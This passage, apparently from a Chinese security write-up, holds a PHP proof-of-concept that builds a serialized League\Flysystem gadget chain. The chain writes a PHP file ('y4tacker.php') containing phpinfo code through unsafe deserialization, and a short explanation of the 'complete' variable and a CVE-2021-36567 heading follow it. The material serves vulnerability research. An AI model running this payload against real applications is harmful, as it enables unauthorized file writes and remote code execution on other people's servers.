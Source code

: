 ```plain
<?php

namespace League\Flysystem\Cached\Storage{

    use League\Flysystem\Filesystem;

    abstract class AbstractCache{
        protected $autosave = false;


    }
    class Adapter extends AbstractCache
    {
        protected $adapter;
        protected $file;

        public function __construct(){
            $this->complete = "*/<?php phpinfo();?>";
            $this->expire = "永遠的神y4";
            $this->adapter = new \League\Flysystem\Adapter\Local();
            $this->file = "y4tacker.php";
        }

    }
}

namespace League\Flysystem\Adapter{
    class Local extends AbstractAdapter{

    }
    abstract class AbstractAdapter{
        protected $pathPrefix;
        public function __construct(){
            $this->pathPrefix = "./";
        }
    }
}

namespace {

    use League\Flysystem\Cached\Storage\Adapter;
    $a = new Adapter();
    echo urlencode((serialize($a)));
}
```

区别就是初始化的时候赋值的 complete 变量，因为 $contents = $this->getForStorage (); 我们跟进 getForStorage () 方法就可以发现 return json\_encode (\[$cleaned, $this->complete, $this->expire\]); 我们自然可以只赋值 complete 变量

## CVE-2021-36567
